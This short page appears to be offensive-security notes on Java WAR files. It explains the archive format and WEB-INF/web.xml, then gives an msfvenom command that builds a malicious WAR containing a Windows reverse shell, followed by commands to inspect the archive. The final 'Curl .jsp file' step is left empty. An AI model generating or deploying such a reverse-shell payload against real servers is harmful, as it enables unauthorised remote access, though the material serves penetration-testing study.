 ```yaml
---
icon: browser
---
```


# APIs

## Java-based web application

**.WAR:**

A Web Application Resource is a single file container that holds all the potential files necessary for a Java-based web application. It can have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file named `web.xml` which defines the structure of the application.

**Create Malicious WAR files:**

Windows: msfvenom

```

msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4444 -f war > filename.war
```

**WAR files are basically ZIP files:**

```
head -c 16 filename.war | xxd
```



**Finding  JSP files:**

```
#Install
sudo apt install default-jdk

#Use jar to list content of the war file
jar tf revshell.war

#Curl .jsp file

```
